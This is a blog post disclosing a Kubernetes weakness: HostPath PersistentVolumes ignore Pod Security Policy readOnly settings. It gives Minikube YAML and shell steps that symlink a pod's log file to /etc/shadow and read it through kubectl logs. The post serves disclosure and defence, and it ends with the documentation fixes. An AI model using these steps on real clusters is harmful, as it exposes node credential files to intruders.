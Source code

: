 ```yaml
---
layout: post
title:  "Dangers of HostPath PersistentVolumes"
date:   2020-03-05 20:12:50 -0800
categories: containers
---
```


## Background

In Kubernetes, a `PersistentVolume` object is an API
object that represents a Volume (some kind of mount),
which can make it easier for operators to keep track
of the Volume. A "share" of a `PersistentVolume` can
be claimed by a Pod via a `PersistentVolumeClaim` object:

| ![pvdocs](/assets/images/pvdocs.png) | 
|:--:| 
| <https://kubernetes.io/docs/concepts/storage/persistent-volumes/#introduction> |


To actually use a Volume defined by a `PersistentVolume` object,
a Pod's spec references an associated `PersistentVolumeClaim` in
its namespace:

| ![pvcdocs](/assets/images/pvcdocs.png) | 
|:--:| 
| <https://kubernetes.io/docs/concepts/storage/persistent-volumes/#claims-as-volumes> |


A `PersistentVolume` object can define the [same types](https://kubernetes.io/docs/concepts/storage/persistent-volumes/#types-of-persistent-volumes) of Volumes you are
used to using inline within a Pod's YAML spec, such as `HostPath`.

## Problem Statement

Trail of Bits noted in their Kubernetes audit that `HostPath` type `PersistentVolume`
objects *are not* check against the [`hostPath`-relevant directives](https://kubernetes.io/docs/concepts/policy/pod-security-policy/#volumes-and-file-systems) in a user's Pod Security Policy (PSP):

| ![tobpvbug](/assets/images/tobpvbug.png) | 
|:--:| 
| <https://github.com/kubernetes/community/blob/master/wg-security-audit/findings/Kubernetes%20Final%20Report.pdf> |

Their exploit scenario involved an attacker who, as per their PSP, was *unable* to use `hostPath`
Volumes, but was allowed to create Pods, `PersistentVolume` objects, and `PersistentVolumeClaim` objects.
In this case, the attacker can create a `HostPath` type `PersistentVolume` specifying a mount at the Node's home
directory, and reference that in a subsequent `PersistentVolumeClaim` and Pod reference, thus achieving Pod that
can access the Node's home directory, despite the PSP that is in place.

Kubernetes reponded in turn and added the following language to the documentation:

| ![pvorigwarning](/assets/images/pvorigwarning.png) | 
|:--:| 
| <https://github.com/kubernetes/website/pull/15756> |

However, **there is an additional angle to build on here**. 

It is known that writable `hostPath` Volumes are insecure, and Aqua has a [fantastic writeup](https://blog.aquasec.com/kubernetes-security-pod-escape-log-mounts) on *one such* example of why this is the case. In Aqua's writeup, they
demonstrate how a Pod that receives a writable `hostPath` Volume of `/var/log` can access *any* files on the Node's
filesystem. You should read the writeup, but this occurs because said Pod can overwrite its (or any other Pod's) `0.log` logfile with a symlink to e.g. `/etc/shadow`, and this symlink is followed by the Node upon any `kubectl logs PODNAME` invocation for the Pod whose logfile has been poisoned!

This is somewhat of a contrived example, but Kubernetes is weary of such trickery, and so they have declared any writeable `hostPath` Volume insecure:

| ![pvorigwarning](/assets/images/readfswarning.png) | 
|:--:| 
| <https://kubernetes.io/docs/concepts/policy/pod-security-policy/#volumes-and-file-systems> |

But note their prescribed fix in the figure above: use the `readOnly: true` sub-directive within the
`allowedHostPaths` directive in a user's PSP in order to make `hostPath` Volumes read-only, and thus safe.
But wait! As we discussed earlier, those directives are not checked for `HostPath` type `PersistentVolume`
objects! And while `PersistentVolume` objects have an `accessModes` directive, support for individual access
modes is determined by the implementation of the underlying storage, and a read-only mode is not supported for
`HostPath` type `PersistentVolumes`:

| ![pvorigwarning](/assets/images/pvaccessmodesupport.png) | 
|:--:| 
| <https://kubernetes.io/docs/concepts/storage/persistent-volumes/#persistent-volumes> |

**Exploit Scenario:**

An operator wishes to provide a read-only copy of the Node's `/var/log`, such that a Pod can view other Pods'
logs, and they choose to represent this as a `HostPath` type `PersistentVolume`.

* The operator reads the aforementioned warning in the PSP documentation, and thus sets `readOnly: true` in `allowedHostPaths` for the `PersistentVolume`, assuming this makes the mount read-only, [as it does for inline `hostPath` Volumes](https://github.com/kubernetes/kubernetes/pull/58647).

* Since the Pod can actually write to `/var/log`, the Pod receiving this Volume mount can follow the steps in Aqua's writeup. By writing a symlink to a Pod's logfile, they can read *any* file off of the Node's filesystem, not just what is in `/var/log`/.

**Minikube Example**

Here are some example Kubernetes objects and steps that can be used to reproduce the
exploit scenario above:

1. Reads the docs, and sets `readOnly: true` in a PSP for `hostPath`
Volumes, in order to prevent attacks surrounding writing and symlinks;
the operator wants a Pod with read-only access to other Pods' logs.

~~~
apiVersion: policy/v1beta1
kind: PodSecurityPolicy
metadata:
   name: psp-restricted
spec:
   allowPrivilegeEscalation: false
   allowedHostPaths:
   - pathPrefix: /var/log
     readOnly: true
   fsGroup:
     rule: RunAsAny
   requiredDropCapabilities:
   - ALL
   runAsUser:
     rule: RunAsAny
   seLinux:
     rule: RunAsAny
   supplementalGroups:
     rule: RunAsAny
   volumes:
   - configMap
   - persistentVolumeClaim
   - emptyDir
   - secret
   - projected
   - nfs
~~~

2. creates a `PersistentVolume` of type `HostPath`, which allows a Pod to
access `/var/log`, under the assumption it is read-only via the PSP
directive

~~~
apiVersion: v1
kind: PersistentVolume
metadata:
    name: task-pv-volume-vol
    labels:
      type: local
spec:
    storageClassName: manual
    capacity:
      storage: 10Gi
    accessModes:
      - ReadWriteOnce
    hostPath:
      path: "/var/log"

apiVersion: v1
kind: PersistentVolumeClaim
metadata:
    name: task-pv-claim-vol
spec:
    storageClassName: manual
    accessModes:
      - ReadWriteOnce
    resources:
      requests:
        storage: 3Gi
~~~

3. but a Pod can still write a symlink to its `0.log` file, which is
followed by the Node upon `kubectl logs PODNAME` in order to read *any* file from the Node

~~~
apiVersion: v1
kind: Pod
metadata:
    name: task-pv-pod
spec:
    volumes:
      - name: task-pv-storage-vol
        persistentVolumeClaim:
          claimName: task-pv-claim-vol
    containers:
      - name: task-pv-container
        image: ubuntu:latest
        command: [ "sh", "-c", "sleep 1h" ]
        volumeMounts:
          - mountPath: "/hostlogs"
            name: task-pv-storage-vol
~~~

~~~
kubectl exec -it task-pv-pod -n default /bin/bash
~~~

~~~
cd
/hostlogs/pods/default_task-pv-pod_c9030cba-f67b-4564-8bbc-531d87e63920/task-pv-container/
~~~

~~~
rm 0.log
~~~

~~~
ln -s /etc/shadow 0.log
~~~

~~~
kubectl logs task-pv-pod -n default
failed to get parse function: unsupported log format:
"root:*:15887:0:::::\n"
~~~


## Fix?

At this point, we've seen why **any `HostPath` type `PersistentVolume` object should
be considered suspect because they cannot be made read-only**. While the `/var/log` example
is the only one I know of, there might be more, which is why the documentation warns about
writable `hostPath` Volumes in the first place.

To address this, Kubernetes is doing two things:

* Updating the documentation's language to state that `HostPath` type `PersistentVolume` objects
cannot be made read-only, which, as we know, is insecure by design

| ![newdocwarning](/assets/images/newdocwarning.png) | 
|:--:| 
| <https://github.com/kubernetes/website/pull/19504/> |

* [Requesting](https://github.com/kubernetes/kubernetes/issues/88880) a feature for read-only `HostPath` type `PersistentVolume` objects